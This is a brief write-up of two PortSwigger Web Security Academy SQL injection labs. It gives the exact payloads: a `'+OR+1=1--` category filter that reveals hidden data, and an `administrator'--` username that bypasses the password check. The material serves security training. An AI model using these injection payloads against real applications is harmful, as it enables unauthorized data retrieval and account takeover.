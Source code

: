 ## SQLi vulnerability in WHERE clause allowing retrieval of hidden data
[SQLi vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

Write-up:
1. `https://0a8200540493743e8242621b00b100be.web-security-academy.net/filter?category=Gifts'+OR+1=1--`

## SQLi vulnerability allowing login bypass
[SQLi vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

Write-up:
1. Submitting `administrator'--` as username successfully bypasses password check and solves lab.
